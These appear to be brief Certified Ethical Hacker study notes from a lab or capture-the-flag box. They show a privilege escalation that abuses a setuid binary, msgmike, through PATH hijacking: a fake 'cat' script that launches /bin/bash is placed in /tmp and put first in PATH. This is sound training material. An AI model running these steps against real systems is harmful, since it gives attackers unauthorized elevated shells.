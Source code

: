 # CEH-Notes
CEH notes


to prev esc to mike :


exec: file msgmike

msgmike: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=60bf769f8fbbfd406c047f698b55d2668fae14d3, not stripped

echo "/bin/bash" > /tmp/cat
cd tmp/
chmod +x cat
export PATH=/tmp:$PATH 

cd home/kane
./msgmike
